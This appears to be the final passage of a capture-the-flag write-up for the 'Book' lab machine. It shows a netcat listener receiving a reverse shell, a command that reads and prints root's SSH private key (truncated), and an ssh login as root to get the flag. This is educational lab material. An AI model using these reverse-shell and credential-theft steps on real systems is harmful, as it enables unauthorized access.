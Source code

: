 Note that it took a few attempts.

Then we get a connection back on our shell:

```bash
kali@kali:~/boxes/book$ nc -nlvp 1234
listening on [any] 1234 ...

connect to [10.10.xx.xx] from (UNKNOWN) [10.10.10.176] 47712
#  cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAsxp94IilXDxbAhMRD2PsQQ46mGrvgSPUh26lCE.........
```

Then we can ssh as root and read the root flag.

```bash
kali@kali:~/boxes/book$ ssh -i root_rsa root@book.htb


root@book:~# cat /root/root.txt
84da92adf{...}
```

Thanks for reading hope that you enjoyed!


